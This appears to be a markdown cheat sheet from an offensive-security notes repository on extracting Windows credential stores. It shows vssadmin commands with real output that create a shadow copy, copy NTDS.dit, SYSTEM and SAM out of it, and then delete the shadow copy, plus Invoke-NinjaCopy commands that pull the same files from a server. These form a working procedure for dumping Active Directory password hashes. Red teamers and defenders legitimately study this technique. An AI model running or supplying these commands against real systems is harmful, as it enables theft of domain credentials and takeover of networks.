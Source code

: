 **Authors**: < [nixawk](https://github.com/nixawk) >

----

## Vssadmin

Applies To: Windows Server 2003, Windows Server 2008, Windows Server 2003 R2, Windows Server 2008 R2, Windows Server 2012, Windows 8

| **Command** | **Description** |
|:----------|:---------------|
|Vssadmin add shadowstorage | Adds a volume shadow copy storage association.|
| Vssadmin create shadow | Creates a new volume shadow copy. |
| Vssadmin delete shadows | Deletes volume shadow copies. |
| Vssadmin delete shadowstorage | Deletes volume shadow copy storage associations. |
| Vssadmin list providers | Lists registered volume shadow copy providers. |
|Vssadmin list shadows|Lists existing volume shadow copies.|
|Vssadmin list shadowstorage|Lists all shadow copy storage associations on the system.|
|Vssadmin list volumes|Lists volumes that are eligible for shadow copies.|
|Vssadmin list writers|Lists all subscribed volume shadow copy writers on the system.|
|Vssadmin resize shadowstorage|Resizes the maximum size for a shadow copy storage association.|

## With Administrator Privilege

```
PS C:\Users\Administrator\Desktop>vssadmin List Shadows
vssadmin 1.1 - Volume Shadow Copy Service administrative command-line tool
(C) Copyright 2001-2005 Microsoft Corp.

Error: You don't have the correct permissions to run this command.  Please run t
his utility from a command
window that has elevated administrator privileges.

```

## List Shadows

```
C:\Windows\system32>vssadmin List Shadows
vssadmin 1.1 - Volume Shadow Copy Service administrative command-line tool
(C) Copyright 2001-2005 Microsoft Corp.

No items found that satisfy the query.
```

### Create Shadow

```
C:\Windows\system32>vssadmin Create Shadow /for=C:
vssadmin 1.1 - Volume Shadow Copy Service administrative command-line tool
(C) Copyright 2001-2005 Microsoft Corp.

Successfully created shadow copy for 'C:\'
    Shadow Copy ID: {153b6835-be81-45ed-bd01-2edbf4f61a85}
    Shadow Copy Volume Name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
```

### Copy Files

```
PS C:\Users\Administrator\Desktop> copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit C:\temp\
PS C:\Users\Administrator\Desktop> copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM C
:\temp\
PS C:\Users\Administrator\Desktop> copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SAM C:\t
emp\

C:\Windows\system32>vssadmin List Shadows
vssadmin 1.1 - Volume Shadow Copy Service administrative command-line tool
(C) Copyright 2001-2005 Microsoft Corp.

Contents of shadow copy set ID: {7b37f005-c738-450c-83cd-ad2f237f2b28}
   Contained 1 shadow copies at creation time: 11/5/2016 1:19:40 AM
      Shadow Copy ID: {153b6835-be81-45ed-bd01-2edbf4f61a85}
         Original Volume: (C:)\\?\Volume{be4f748a-a19f-11e6-a5bb-806e6f6e6963}\
         Shadow Copy Volume: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
         Originating Machine: SERVER2008.thegeekstuff.com
         Service Machine: SERVER2008.thegeekstuff.com
         Provider: 'Microsoft Software Shadow Copy provider 1.0'
         Type: ClientAccessible
         Attributes: Persistent, Client-accessible, No auto release, No writers,
 Differential
```


### Delete Shadows

```
C:\Windows\system32>vssadmin Delete Shadows /For=C:
vssadmin 1.1 - Volume Shadow Copy Service administrative command-line tool
(C) Copyright 2001-2005 Microsoft Corp.

Do you really want to delete 1 shadow copies (Y/N): [N]? Y

Successfully deleted 1 shadow copies.
```

----


## Invoke-NinjaCopy

```
PS C:\Users\Administrator> Invoke-NinjaCopy -Path "C:\Windows\System32\config\SYSTEM" -ComputerName SERVER -localDestination "C:\temp\SYSTEM"
PS C:\Users\Administrator> Invoke-NinjaCopy -Path "C:\Windows\NTDS\NTDS.dit" -ComputerName SERVER -localDestination "C:\temp\NTDS.dit"
```

## References

1. https://technet.microsoft.com/en-us/library/cc754968(v=ws.11).aspx
2. [Tutorial for NTDS goodness (VSSADMIN, WMIS, NTDS.dit, SYSTEM)](https://www.trustwave.com/Resources/SpiderLabs-Blog/Tutorial-for-NTDS-goodness-(VSSADMIN,-WMIS,-NTDS-dit,-SYSTEM)/)
3. [How Attackers Pull the Active Directory Database (NTDS.dit) from a Domain Controller](https://adsecurity.org/?p=451)
4. https://clymb3r.wordpress.com/2013/06/13/using-powershell-to-copy-ntds-dit-registry-hives-bypass-sacls-dacls-file-locks/
5. https://github.com/clymb3r/PowerShell/blob/master/Invoke-NinjaCopy/Invoke-NinjaCopy.ps1
